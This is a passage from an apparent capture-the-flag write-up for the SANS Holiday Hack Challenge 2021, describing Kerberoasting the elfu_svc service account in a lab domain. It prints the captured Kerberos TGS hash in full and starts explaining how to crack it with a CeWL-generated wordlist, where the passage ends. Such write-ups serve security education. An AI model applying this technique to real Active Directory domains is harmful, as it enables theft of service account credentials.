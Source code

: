 ![Kerberoasting the elfu_svc Account](/assets/img/2021_sans_hhc/obj/obj08/picture_8.png){: width="750"}
<p align="center">
    <strong>Figure 8: Service Account Vulnerable to Kerberoasting</strong>
</p>

```
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_svc*$aba9cc937c957875d486462b35494ba8$dad3e65c66a
8a30e78a60c77713bbd6721e95c671d7a5164804f52a965068fb4800473aab17c97a6651693d609ebf07285a7770d67059
598c74953358c124cb01cbd39f2837d9f4a5635641257b879aac35111b2c85e39e2fa17433f5d4fe49346a905c386a7df3
411f91250129f2f0d367ede051162041b33ea24ccc27cfed485683d2f879b6f3eccf1a0855bda9989150611e17dab1ba22
1bc360a598155b6a7ba8504d68c9eafba5306ee3c32b6fe6cf548cfaa803e0954f411568170992eaeafc44684574faad48
12bda73f31e776d39797a518d973c86ac3a04c53c8042ad9911e7586c785f9e86228ed355a065c1816174ef81e889249c4
ef833955eed1931ad94bdec2532eb4be17ed3af0d725d7944274d126ed89423c33339057e1b7ea8408c96cb6b2fe90d14f
c34269fb637ab51646a93b02a88fead678091675807ef4e35ea6f678ccad0f09bc53108c28643b1ad375b0cf0bf8f7e0fe
fa5155b5c06e45d6b47409982ef023270f7d09f35cfaa9c943d4f9afb1f4fbde7e5cb1be607ba339000e21808553f5dbe9
8cc463c0b20665505e740b2db7ee2ef0d7f3010065434f27b72b498f20bccc3cdae5d84828c9d90e79ba7fbce3df1e52cc
35c5aca6965ece0953320a4682877695449d22894b1c3a4fb5ed6e99fe08a1ddb787a7c7eeef4cd4689eda2d7b45dfd46d
d3d49e6718c0af56be545ef7a19059c39829774045357eb1f1c6901fef60a30dca924da70dc785998be036a0ab6a5c0b82
e7043ec3ed5995340ed048d07a8f64ce20bf94a99d6c912ed5db5589da735f2fb6d8c7d498991529a459247b0ed7350160
6f886b0e8560161727d08e1fb55c192f8053d7a6bbfd092f28abc5d894b9fdbf4587582db3e5fe0e3640e40cf32a59106b
58c47c5e12c7e9de989b40dc95af9a52d514ef4bc2064d9c5edf53685cf92ad845b422b5712d07ccf8bd3c9e61f4144e0b
c6329719cb78dc2ce02558b4e8af4fdfd4f580d543c42126070a2367b81fc7b15908a17da901ccfbd284c8c2ebc45da406
2ab921da93e3556c92e57cb935c0d062a978aa234a71d51378b2f1bf5bc679f54679c4ac40eb394e25818f8d5058fd4d00
045555fbbaa962a8253535f7360318afefa3b7c08c9029e1f7e4020b8f7be1a4914c1be1d9beff4d5da4c2432506817fd9
0548a73e18eb7d8dbe14f7e3d398333cc99786a8eb8575e7b1660b54bd7d2adf821570ab88fe7651c4d05758112d38adca
ad7b95202da28295b6cf5561a3e5cecdd6e50181f5f5b9fd2a3f017ef36013c56f0db7157b1b77c58d22b6830dc9854007
fccaf06475bbf85f8efb6d9f69dcd0d0e80abcc715055c063bc2c1c729fab6e84589f8ceab7399093637fae344bac363fd
5933b310910d3d4b4dd1420f8899a197e492b00010a8d6e0d13436d18b4625498a7cf6168313dde4c217eac
```

Make sure to put this hash in a text file. This will make the cracking process simpler.

## Crack the Hash

Hints 4 and 5 help a lot to crack this hash.

The first thing that we need to do is generate our wordlist. We'll use CeWL for this.
